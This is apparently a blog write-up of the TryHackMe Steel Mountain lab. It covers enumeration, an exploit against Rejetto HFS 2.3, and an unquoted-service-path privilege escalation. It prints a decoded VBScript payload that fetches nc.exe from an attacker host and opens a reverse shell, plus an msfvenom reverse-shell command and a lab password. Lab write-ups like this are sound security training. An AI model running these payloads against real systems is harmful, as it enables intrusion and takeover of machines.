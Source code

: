 ```yaml
---
title: Steel Mountain
date: 2024-02-13 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Steel Mountain is a vulnerable machine from [TryHackMe](https://tryhackme.com) that requires some standard enumeration with setting up and running a couple of exploits. After you find the vulnerable services, the exploits and path to foothold and privilege escalation are straightforward. 

## Nmap Scan
* nmap -T4 -p- <target ip>
    * PORT      STATE SERVICE
    * 80/tcp    open  http
    * 135/tcp   open  msrpc
    * 139/tcp   open  netbios-ssn
    * 445/tcp   open  microsoft-ds
    * 3389/tcp  open  ms-wbt-server
    * 5985/tcp  open  wsman
    * 8080/tcp  open  http-proxy
    * 47001/tcp open  winrm
    * 49152/tcp open  unknown
    * 49153/tcp open  unknown
    * 49154/tcp open  unknown
    * 49155/tcp open  unknown
    * 49156/tcp open  unknown
    * 49169/tcp open  unknown
    * 49170/tcp open  unknown
* nmap -T4 -sV -A -p 135,139,445,3389,8080 <target ip>
    * 135/tcp  open  msrpc        Microsoft Windows RPC
    * 139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
    * 445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    * 3389/tcp open  ssl          Microsoft SChannel TLS
    * 5985/tcp  filtered wsman
    * 47001/tcp open     http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    * |_http-server-header: Microsoft-HTTPAPI/2.0
    * 8080/tcp open http HttpFileServer httpd 2.3
[Rejetto HFS](http://www.rejetto.com/hfs/)

Most of the ports open aren't terrible helpful to use, the unknowns we can ignore here. The most interesting are typically the smb and http services. Checking out the smb services didn't get me anywhere at all, as there doesn't seem to be any access open over smb from what I could find. 

## Checking out the Site
We did find a login page on the site. There doesn't seem to be much we can do here without credentials:
* http://10.10.243.11:8080/~login

## Enumerating the Web Site
Nikto Scan
> nikto -h http://10.10.243.11:8080
    OSVDB-38019: /?mod=<script>alert(document.cookie)</script>&op=browse: Sage 1.0b3 is vulnerable to Cross Site Scripting (XSS).

Dirbuster
> dirbuster dir -u http://10.10.243.11:8080/ -w /usr/share/wordlists/dirb/common.txt 
    No interesting directories found on the site.

## Vulnerable Service
We do see this is Rejetto HttpFileServer 2.3 version. This has a vulnerability that exists both in `Metasploit` and a public python script. We can use searchsploit to find the public exploit: "searchsploit Rejetto 2.3"
* More than one file may come up in your search, and I actually found a different script by mistake at first: `49125.py`
* Took some attempts for me to figure out this is the wrong exploit, and instead the target public exploit is: `39161.py`
    * #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).

Decoding some of the script, we can easily understand the intent: 
```java
{
ip_addr = "attacker ip" #local IP address
local_port = "listening port" # Local Port number

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with

vbs2 = cscript.exe C:\Users\Public\script.vbs
vbs3 = "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
}
```
After URL Decoding the portions of the script that are encoded, we can see this script intends to utilize vbs script creation in order to reach back to our attacker machine, grab netcat, and then use netcat to reach back to our attacker IP and Port that is stagged on our end with netcat. 

> If we have our listener stagged properly on our attacker box with netcat, we will get a connection back to our attacker machine. 

> Success! We are on the machine as the user bill, and can grab user.txt. Now we need to enumerate the box to find our privilege escalation path. 

![User](C:\Users\psove\OneDrive\Documents\GitHub\dathalind.github.io\assets\img\steel_mountain\steelmnuser.png)

## Local Enumeration
After doing a file transfer with powershell, we let the x86 version of winpeas run to see what vulnerabilities exist, and take a look through to see what stands out the most. We want to find the low hanging fruit. 

* Basic enumeration items we find:
    * This is a Windows Sever 2012 R2 Data Center
    * Build number 9600
    * All Access to some Named Pipes, with one that has WriteData/Create File access
    * 3 users, Administrator, Guest, and Bill; Guest is disabled
    * There is a Public directory, and we have write/create file access there
    * No interesting files for us, we picked up our nc.exe and the hfs.exe files

Services that are non-microsoft, seems to be:
- Advanced System Care; AdvancedSystemCareService9.
- Amazon Agent.
- IEETwCollectorService.
- IObitUnSvr; no quotes and space detected.
- LiveUpdateSvc; no quotes and space detected.
- Can modify installed programs, seems to be related to those IOBit pua’s.

>Looks like we can write and create files inside of windows tasks and system32 tasks.
>> Found Bills password: PMBAf5KhZAxVhvqb
>>> Ntlmv2 hash was found, not super useful in this context as we aren't looking to pivot from this box.

At this point, the unquoted service path vulnerability seems to be the best choice to try. We need to craft a reverse shell payload to replace a process in one of the file path's are has a space, and that didn't have quotes around it. 

## Crafting our payload
Since `Advanced System Care` didn't have quotes, we throw a reverse shell into this file path as `Advanced.exe`. After we move the file into the path, we need to then stop and start the service that runs the files out of that path, which is service `AdvancedSystemCareService9`.

> Craft payload with `msfvenom`:
>> msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4545 -f exe > Advanced.exe

We transfer the payload over, put it in the correct path, and use sc start/stop to stop and start the service. Once this is done, we get our shell back, and are now `NT Authority\System`.

![Root](C:\Users\psove\OneDrive\Documents\GitHub\dathalind.github.io\assets\img\steel_mountain\steelmnroot.png)